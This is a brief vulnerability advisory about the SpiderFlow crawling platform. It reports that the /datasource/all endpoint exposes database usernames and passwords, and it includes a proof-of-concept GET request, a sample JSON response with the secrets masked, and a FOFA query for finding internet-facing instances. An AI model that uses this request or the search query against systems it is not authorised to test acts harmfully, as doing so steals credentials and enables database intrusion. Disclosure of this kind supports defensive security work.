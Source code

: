 ### spider-flow Sensitive Information Disclosure

​		SpiderFlow is a next-generation open-source web crawling platform that allows users to define web crawling processes graphically without coding. Developed using springboot+layui, both frontend and backend are inseparable and can be further customized and developed. It has garnered significant popularity on GitHub with 8.8K Stars. The project’s repository is located at: https://github.com/ssssssss-team/spider-flow. 

​		The system’s /datasource/all interface is vulnerable to sensitive information disclosure, potentially allowing attackers to obtain database credentials.

​		Affected Versions: All versions

Author: 炜夜



Vulnerability Detection Method：

HTTP Request:

```request
GET /datasource/all
```

HTTP Response:

```response
HTTP/1.1 200
Content-Type: application/json; charset=utf-8
Date: Thu, 11 Jan 2024 23:39:31 GMT
Connection: close
Content-Length: 1207

[{"id":"****","name":"***","driverClassName":"com.mysql.jdbc.Driver","jdbcUrl":"jdbc:mysql://127.0.0.1:3306/","username":"root","password":"****","createDate":null}]
```



It can be observed that the plaintext information of database account and password exists in the data.



FOFA search statement

```fofa
app="SpiderFlow"
```


